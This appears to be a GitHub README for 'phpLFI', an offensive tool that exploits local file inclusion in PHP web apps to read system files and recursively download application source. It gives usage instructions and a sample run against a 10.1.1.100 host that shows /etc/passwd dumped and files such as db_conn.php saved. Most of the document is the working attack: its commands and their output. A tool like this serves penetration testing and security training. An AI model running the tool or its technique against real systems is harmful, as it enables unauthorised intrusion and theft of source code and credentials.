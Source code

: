 # phpLFI
Tests for LFI in PHP apps and automates the process of abusing LFI's to download source code and discover new files via includes and recursively download additional source code files.

Compile it: `nim c phpLFI.nim`

Give it at least one php file for the -f option. I recommend you run gobuster/ffuf/dirb/dirsearch/etc with the wordlist "SecLists/Discovery/Web-Content/Common-PHP-Filenames.txt" (not included, get it from: https://github.com/danielmiessler/SecLists) to discover more php files and feed any discovered words to the -f parameter as comma separated values.

Please note that this program is limited to discovering and exploiting LFI in PHP only, and only when a single '=' appears in the URL. I may add the ability to test/exploit multiple params at a later date, but feel free to contribute that feature if you need it and can't wait. :)

```
$ ./phpLFI -u:'http://10.1.1.100/image.php?img=foo.jpg' -f:login.php,image.php
✓ LFI found in url. Successfully accessed /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
thomas:x:1000:1000:aaron:/home/aaron:/bin/bash

ℹ Searching php files for includes...

✓ Discovered a file: header.php
✓ Discovered a file: db_conn.php
✓ Discovered a file: index.php
✓ Discovered a file: index.php
✓ Discovered a file: footer.php
ℹ Checking file: login.php
    ✓ Saving file: login.php
ℹ Checking file: image.php
    ✓ Saving file: image.php
ℹ Checking file: header.php
    ✓ Saving file: header.php
ℹ Checking file: db_conn.php
    ✓ Saving file: db_conn.php
ℹ Checking file: index.php
    ✓ Saving file: index.php
ℹ Checking file: footer.php
    ✓ Saving file: footer.php
                                     
```
